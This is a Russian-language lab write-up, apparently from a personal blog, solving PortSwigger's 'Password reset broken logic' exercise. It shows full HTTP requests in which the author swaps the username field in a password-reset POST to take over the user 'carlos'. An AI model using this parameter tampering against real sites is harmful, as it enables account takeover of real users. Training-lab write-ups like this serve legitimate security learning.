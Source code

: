 ```yaml
---
title: "Password reset broken logic"
date: 2025-09-25
tags: [web, authentication, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/authentication-vulnerabilities/vulnerabilities-in-other-authentication-mechanisms/authentication/other-mechanisms/lab-password-reset-broken-logic"
classes: wide
---
```


Для прохождения лабы нужно сбросить пароль пользователя `carlos`, а затем получить доступ к его аккаунту. Для входа даны креды `wiener`:`peter`.

```
https://0a650072031ae7f8806f8f2200d100d5.web-security-academy.net/
```

## Solution

На странице `/login` нашел кнопку сброса пароля. Попробую это сделать:

```http
POST /forgot-password HTTP/2
Host: 0a650072031ae7f8806f8f2200d100d5.web-security-academy.net
Cookie: session=2GGelaPHisz9MHHVU9MyRaBmLBF4xEf2
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a650072031ae7f8806f8f2200d100d5.web-security-academy.net/forgot-password
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
Origin: https://0a650072031ae7f8806f8f2200d100d5.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

username=wiener
```

На почту пришла следующая ссылка:

```
https://0a650072031ae7f8806f8f2200d100d5.web-security-academy.net/forgot-password?temp-forgot-password-token=g3y1mjmupkzdgq118lyvpojqrhl2btly
```

Попробую расшифровать токен:

```bash
echo 'g3y1mjmupkzdgq118lyvpojqrhl2btly' | base64 -d                                                                   
�|��9��L݂�u�\����vn�r%
```

`hashcat` тоже пожелал мне удачи) Значит пойду другим путем. Перейду по ссылке. Тут форма смены пароля:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_authentication/IMG_Password_reset_broken_logic/1.png){: height="200" .align-center}

Сменю свой пароль:

```http
POST /forgot-password?temp-forgot-password-token=g3y1mjmupkzdgq118lyvpojqrhl2btly HTTP/2
Host: 0a650072031ae7f8806f8f2200d100d5.web-security-academy.net
Cookie: session=2GGelaPHisz9MHHVU9MyRaBmLBF4xEf2
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a650072031ae7f8806f8f2200d100d5.web-security-academy.net/forgot-password?temp-forgot-password-token=g3y1mjmupkzdgq118lyvpojqrhl2btly
Content-Type: application/x-www-form-urlencoded
Content-Length: 113
Origin: https://0a650072031ae7f8806f8f2200d100d5.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

temp-forgot-password-token=g3y1mjmupkzdgq118lyvpojqrhl2btly&username=wiener&new-password-1=123&new-password-2=
```

В теле запроса передается переменная `username`. Хех... А что, если заменить ее на `carlos`? Получу новую ссылку и попробую это там:

```http
POST /forgot-password?temp-forgot-password-token=3eptbovnfg5htgqui5ztlxyxr79oy8di HTTP/2
Host: 0a650072031ae7f8806f8f2200d100d5.web-security-academy.net
Cookie: session=2GGelaPHisz9MHHVU9MyRaBmLBF4xEf2
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a650072031ae7f8806f8f2200d100d5.web-security-academy.net/forgot-password?temp-forgot-password-token=g3y1mjmupkzdgq118lyvpojqrhl2btly
Content-Type: application/x-www-form-urlencoded
Content-Length: 113
Origin: https://0a650072031ae7f8806f8f2200d100d5.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

temp-forgot-password-token=3eptbovnfg5htgqui5ztlxyxr79oy8di&username=carlos&new-password-1=123&new-password-2=
```

Ответ:

```http
HTTP/2 302 Found
Location: /
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

Попробую зайти в ЛК:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_authentication/IMG_Password_reset_broken_logic/2.png){: height="200" .align-center}
